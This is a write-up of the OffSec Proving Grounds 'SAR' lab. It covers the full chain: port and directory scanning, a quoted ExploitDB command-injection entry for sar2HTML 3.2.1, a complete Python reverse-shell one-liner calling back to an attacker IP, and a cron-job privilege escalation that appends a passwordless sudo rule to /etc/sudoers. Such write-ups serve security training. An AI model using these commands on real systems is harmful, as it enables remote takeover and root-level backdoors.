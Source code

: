 * * *
  ### Lab: SAR 
  PROVING GROUNDS(OFFSEC)
* * *  

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/97284a17-94cb-4f78-8f88-19a4ad4f679a)

- FFuf's result reveals a robots.txt file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/41e46114-78d0-4ba4-b515-4714e29e30ea)

- Robots.txt reveals a "sar2HTML" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0bc608fb-cc28-4367-8fca-7fd69edf36a0)

- The sar2HTML directory reveals a sar2HTML ver  3.2.1 page on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fb297a18-93de-49ba-a9a7-c6eeac73bde8)

- According to exploitDB, this version of sar2HTML is vulnerable to rce and we can pop a rev shell via that vulnerability.<a href="https://www.exploit-db.com/exploits/47204">Link to the
  details</a>

       # Exploit Title: sar2html Remote Code Execution
       # Date: 01/08/2019
       # Exploit Author: Furkan KAYAPINAR
       # Vendor Homepage:https://github.com/cemtan/sar2html 
       # Software Link: https://sourceforge.net/projects/sar2html/
       # Version: 3.2.1
       # Tested on: Centos 7

      In web application you will see index.php?plot url extension.

      http://<ipaddr>/index.php?plot=;<command-here> will execute 
      the command you entered. After command injection press "select # host" then your command's 
      output will appear bottom side of the scroll screen.
            
- Testing it reveals this

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16367f87-5490-46fd-9383-3668cf8a484d)

### Foothold
- Popping a revshell with python3 code `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
  and stabilizing it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/79d334c2-9911-401b-a69d-76220dc499bc)

### Privesc with cronjob running a writable script as root

- View existing cronjob with "cat /etc/crontab"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9d1d9bc0-f8b8-4e3c-8a3f-63cdce079faf)

- Checking the status of the cron job with "service cron status"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bf0e8c78-bddb-4175-a0ac-77b1468b069f)

- We have write permissions for the script that finally.sh is running

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2a213b1e-188f-4cbf-a88e-25c2add6eb56)

- I got this script from this site to write a command to /etc/sudoers to allow www-data to use sudo without a password.<a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation">Link to script</a>

      #! /usr/bin/env python3
      import os
      import sys
      try:
         print("on it")
         os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
      except:
          print("Didn't work")
          sys.exit()
- We will receive the file via python http.server,delete write.sh and set our malicious write.sh for the cronjob to run and wait for some minutes.

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/90221deb-16e0-411d-b045-22bd1bd10c3d)

- Gain root access with "sudo bash"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3966397a-d9ac-4a05-8262-3b1d020669f6)

- Root access gained
  
 
  
   

